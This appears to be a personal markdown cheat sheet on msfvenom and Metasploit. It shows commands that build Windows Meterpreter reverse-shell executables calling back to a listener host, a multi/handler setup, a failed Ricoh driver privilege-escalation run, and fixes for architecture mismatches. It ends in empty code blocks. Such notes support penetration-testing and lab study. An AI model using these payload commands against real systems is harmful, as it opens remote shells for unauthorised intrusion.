 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax (not case sensitive, variable can be used for LHOST)
```
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -o <OUTPUT>
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -e <ENCODER> -i <ENCODE COUNT> -o <OUTPUT>
```

### Common 32 bit
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=3232 -f exe -o rev.exe
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```

## Common Mistake

### The payload should use the same architecture as the target driver
```
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```
### 
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

### 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

### 
```
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### Options:
```
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
   --list-options               List --payload <value>'s standard, advanced and evasion options

-f, --format          <format>   Output format (use --list formats to list)
```

### list format; -lf or -l -f or --list format (if you like to type)
```
$ msfvenom -lf  

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
... [snip] ...
    sh
    vbapplication
    vbscript
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```